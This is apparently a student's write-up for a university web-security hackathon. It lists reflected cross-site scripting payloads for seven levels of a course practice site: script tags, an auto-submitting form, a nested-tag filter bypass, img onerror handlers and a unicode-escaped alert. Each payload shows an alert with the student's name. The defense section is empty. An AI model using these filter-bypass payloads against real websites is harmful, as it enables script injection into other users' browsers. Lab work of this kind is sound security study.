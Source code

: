 # WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Amit Gaddi

**Email**: gaddiat@mail.uc.edu

**Short-bio**: Amit has keen interest in IT. 

![Amit's headshot](images/Pic.jpg)

## Repository Information

Repository's URL: [https://github.com/gaddiat-uc/waph.git](https://github.com/gaddiat/waph-gaddiat.git)

This is a private repository for Amit Gaddi to store all code from the course. The organization of this repository is as follows.

# Hackathon 1 - Cross-site Scripting Attacks and Defenses 

## Overview  

This hackathon focuses on hands-on activities to help participants learn cross-site scripting (XSS) attacks and defense mechanisms. In Task 1, participants must launch reflected XSS attacks on seven layers of the given web application, injecting code to display their names using the `alert()` function. They must also predict the vulnerable source code for levels 2 through 6. For each successful assault, participants must give a URL snapshot of the injected XSS payload as well as an inspection of the attack payload in the browser. Task 2 requires participants to analyze and revise their vulnerable code from prior labs using input validation and XSS defensive strategies.This entails rewriting the echo.php code from Lab 1 as well as detecting and protecting external input data channels in Lab 2's current frontend prototype. Each revision must be committed and published to GitHub with suitable messages, and a snapshot of the GitHub commit is required to demonstrate the code revision. The hackathon intends to provide hands-on experience in discovering XSS vulnerabilities and building security measures to secure online applications.

### Task 1: Attacks (35 pts) 

In the task 1 I used `alert()` to display my name when seven layers of reflected XSS attacks are performed on a given web application. Furthermore, for levels 2–6, I examine the [http://waph-hackathon.eastus.cloudapp.azure.com/xss/](http://waph-hackathon.eastus.cloudapp.azure.com/xss/) `echo.php` source code to find attack sites. This exercise gave me hands-on experience finding and exploiting XSS vulnerabilities, while also reinforcing online security fundamentals.

There are seven levels of reflected cross-site scripting attacks on
[http://waph-hackathon.eastus.cloudapp.azure.com/xss/](http://waph-hackathon.eastus.cloudapp.azure.com/xss/)


For each level of attack, you must demonstrate success with a full
URL screenshot with (i) injected XSS to display your name
using `alert()`, and (ii) the payload of the attack inspected in
the browser. The expected screenshot is illustrated in Lecture 8 and the attached slides.

_For each level 2-6, you have to guess the core source code of the `echo.php`
web application, i.e., where the vulnerability is exploited (2 pts each)_

+  Level 0:

```
<script>alert("Level 0-hacked by Amit Gaddi")</script>"

```


![Screenshot](images/Screenshot0.png)   

+  Level 1:

```
http://waph-hackathon.eastus.cloudapp.azure.com/xss/level1/echo.php?input=%3Cscript%3Ealert(%22Level%201-hacked%20by%20Amit%20Gaddi%22)%3C/script%3E%22

```
![Screenshot](images/Screenshot1.png)   

+  Level 2:



Included file `Level2.html`
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>HTML Form</title>
</head>
<body>
    <form action="http://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php" method="POST">
        Your input: <input name="input" value="&lt;script&gt;alert('Level 2-hacked by Amit Gaddi')&lt;/script&gt;">
        <input type="submit" value="Submit">
    </form>
</body>
</html>

```

![Screenshot](images/Screenshot2.png)   

+  Level 3:

```
http://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php?input=%3Csc%3Cscript%3Eript%3Ealert(%27level-3%20hacked%20by%20Amit%20Gaddi%27)%3C/sc%3C/script%3Eript%3E

```


![Screenshot](images/Screenshot3.png)   

+  Level 4:

```
http://waph-hackathon.eastus.cloudapp.azure.com/xss/level4/echo.php?input=%3Cimg%20src=%22..%22%20onerror=%22alert(%27Level%204%20:%20Hacked%20by%20Amit%20Gaddi%27)%22%3E

```


![Screenshot](images/Screenshot4.png)   

+  Level 5:

```
http://waph-hackathon.eastus.cloudapp.azure.com/xss/level5/echo.php?input=%3Cimg%20src=%22..%22%20onerror=%22%5Cu0061lert(%27Level%205:%20Hacked%20By%20Amit%20Gaddi%27)%22%3E

```


![Screenshot](images/Screenshot5.png)   


+  Level 6:

```
http://waph-hackathon.eastus.cloudapp.azure.com/xss/level6/echo.php/%22%20onmouseenter=%22alert('level%206:%20Hacked%20by%20Amit%20Gaddi%20%20')%22

```


![Screenshot](images/Screenshot61.png)   




### Task 2. Defenses: (15 pts) 



+ echo.php (from Lab 1) (3 pts)


  
+ Current front-end prototype (Lab 2) (12 pts): identify external input data channels, where you must validate the data before using it, and encode the data before displaying/injecting in the front-end interface, i.e., webpage

For each revision, commit and push the code to GitHub with an appropriate message, and capture a screenshot on GitHub of that commit to illustrate the code revision (GitHub -> Code -> xx commits ->
click on the commit you revised the code). The expected screenshot is illustrated in Lecture 8 and the attached slides.

```




```